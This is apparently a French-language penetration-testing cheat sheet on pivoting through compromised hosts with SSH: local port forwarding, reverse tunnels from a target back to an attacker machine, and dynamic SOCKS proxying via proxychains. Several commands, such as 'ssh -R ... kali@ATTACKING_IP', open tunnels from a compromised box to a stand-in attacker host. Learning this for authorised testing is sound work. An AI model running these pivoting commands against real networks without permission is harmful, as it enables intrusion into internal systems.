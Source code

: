 ## Forward Connections (Connexions de transfert)

La création d'un tunnel SSH direct (ou «local») peut être effectuée à partir de notre boîte d'attaque lorsque nous avons un accès SSH à la cible.

Il existe deux manières de créer un tunnel SSH de transfert: 
- La redirection de port 
- Création d'un proxy

## Local Port Forward (La redirection de port)

> Par exemple, si nous avions un accès SSH à 172.16.0.5 et qu'un serveur Web s'exécute sur 172.16.0.10, nous pourrions utiliser cette commande pour créer un lien vers le serveur sur 172.16.0.10

Sur kali :

```sh
ssh -L [bind_address:]port:host:hostport [username@address] -fN
```

```sh
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

## Remote Port Forward (La redirection de port distant)
> Reverse Connections ( Connexions inversées)


**Les connexions inversées sont tout à fait possibles avec le client SSH (et peuvent même être préférables si vous avez un shell sur le serveur compromis, mais pas d'accès SSH).**

Avant de pouvoir établir une connexion inversée en toute sécurité, nous devons suivre quelques étapes:

1. Tout d'abord, générez un nouvel ensemble de clés SSH et stockez-les dans un endroit sûr:

```
ssh-keygen
```

2. Copiez le contenu de la clé publique `id_rsa.pub`
3. Puis éditez le fichier `~/.ssh/authorized_keys` sur votre propre machine attaquante. (cree le si il n'existe pas)
4. Sur une nouvelle ligne, tapez la ligne suivante, puis collez la clé publique:

```c
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty {[Contenu de la cle id_rsa.pub]}
```

Cela garantit que la clé ne peut être utilisée que pour la redirection de port, empêchant la possibilité d'obtenir un shell sur votre machine attaquante.

5. Redemarrer le service SSH

```sh
sudo service ssh restart
```

6. Transférer la clé privée vers la box cible.C'est pourquoi nous avons généré un ensemble jetable de clés SSH à jeter dès que l'engagement est terminé.

7. Une fois la clé transférée, nous pouvons ensuite nous reconnecter avec une redirection de port inversée

```sh
ssh -R [kali-address:]port:host:hostport [kali@kali-address] -fN
```

```sh
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT kali@ATTACKING_IP -i KEYFILE -fN
```

> Par exemple, si nous avons un shell sur 172.16.0.5 et que nous voulons donner à notre boîtier d'attaque (172.16.0.20) l'accès au serveur Web sur 172.16.0.10, nous pourrions utiliser cette commande sur la machine 172.16.0.5 

```bash
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

Il est également possible de créer un reverse proxy inverse dans les clients qui le prennent en charge:  

```sh
ssh -R 1337 kali@ATTACKING_IP -i KEYFILE -fN
```

## Dynamic Port Forwarding (Proxy)

Ceci est utile lorsqu'il est combiné avec un outil tel que proxychains.

```sh
ssh -D [address to bind to]:[port to bind to] [user@address] -fN
```

```sh
ssh -D 1337 user@172.16.0.5 -fN
```

```sh
sudo nano /etc/proxychains.conf
	socks4 127.0.0.1 1337
```
